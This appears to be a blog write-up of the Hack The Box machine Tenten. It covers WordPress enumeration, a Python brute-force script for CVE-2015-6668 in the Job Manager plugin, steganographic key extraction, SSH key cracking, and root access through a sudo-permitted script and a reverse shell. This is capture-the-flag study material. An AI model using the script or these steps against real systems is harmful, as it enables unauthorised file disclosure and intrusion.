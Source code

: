 ```yaml
---
"title": "Hack The Box - Tenten"
"date": 2020-01-12
"tags": ["linux", "medium", "sudo", "wordpress", "plugin"]
"keywords": ["linux", "medium", "sudo", "wordpress", "plugin"]
"author": "Ghostbyt3"
"description": "We are going to pwn Tenten from Hack The Box."
"featured_image": "/img/htb-tenten/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-tenten/1.png)

We are going to pwn Tenten from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/8](https://www.hackthebox.eu/home/machines/profile/8)


Like always begin with our Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

![Untitled](/img/htb-tenten/2.png)[br/](br/)
Since its a wordpress site we can enumerate using ``wpscan`` to get see if there is any users and plugins available[br/](br/)
Found a Plugin called ``job-manager``
![Untitled](/img/htb-tenten/3.png)

Found an User  ``takis``[br/](br/)
![Untitled](/img/htb-tenten/4.png)

I started searching for any exploits available for that plugin and found

>https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/

From the blog I found there is a directory ``/index.php/jobs/apply/@@/``[br/](br/)
![Untitled](/img/htb-tenten/5.png)

As we can see there is an ID and when I changed to some random numbers and job title has been changed.[br/](br/)
![Untitled](/img/htb-tenten/6.png)

So I started trying some random number to check if there is anything useful for us.[br/](br/)
![Untitled](/img/htb-tenten/7.png)[br/](br/)
Found this ``HackerAccessGranted`` from the ID 13 , Which looks suspecious.

In WordPress there is directory structure for the uploaded files is recognized by ``/wp-content/uploads/%year%/%month%/%filename%``
 
There is a python script given in the above Link ``CVE-2015-6668`` which helps to find the exact directory of the file location by bruteforcing.

I did some modifications on the script 

> - Changed the year range to the year of the box released.
> - Changed the extensions.

```
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017,2018):  
    for i in range(1,13):
        for extension in {'jpg','jpeg','png','pdf','txt'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

![Untitled](/img/htb-tenten/8.png)[br/](br/)
It found the exact location of the file ``HackerAccessGranted``

Opened the link and its an image.[br/](br/)
![Untitled](/img/htb-tenten/9.png)

This is the image we found!![br/](br/)
![Untitled](/img/htb-tenten/10.1.jpg)

Downloaded it to my machine to check with ``steghide`` to see if there is anything hidden.

> steghide - a steganography program

![Untitled](/img/htb-tenten/10.png)

Got SSH Private key so lets use ssh2john before cracking it with john[br/](br/)
![Untitled](/img/htb-tenten/11.png)[br/](br/)
I saved the output as ``ssh2john`` and I gave it to ``john`` to crack the password.[br/](br/)
![Untitled](/img/htb-tenten/12.png)[br/](br/)

So the password is ``superpassword``. We already know there is an user named ``takis``[br/](br/)
![Untitled](/img/htb-tenten/13.png)

## Privilege Escalation:

Like always I started with ``sudo -l``[br/](br/)
![Untitled](/img/htb-tenten/14.png)

Looks like we can run ``fuckin`` as root without password.[br/](br/)
![Untitled](/img/htb-tenten/15.png)[br/](br/)
``fuckin`` seems to be a script that contains arguments and that we need to pass on.

Lets try with ``whoami``

Now its time to get reverse shell as root using the ``fuckin``[br/](br/)
![Untitled](/img/htb-tenten/16.png)

Started my listener[br/](br/)
![Untitled](/img/htb-tenten/17.png)

I got Root!


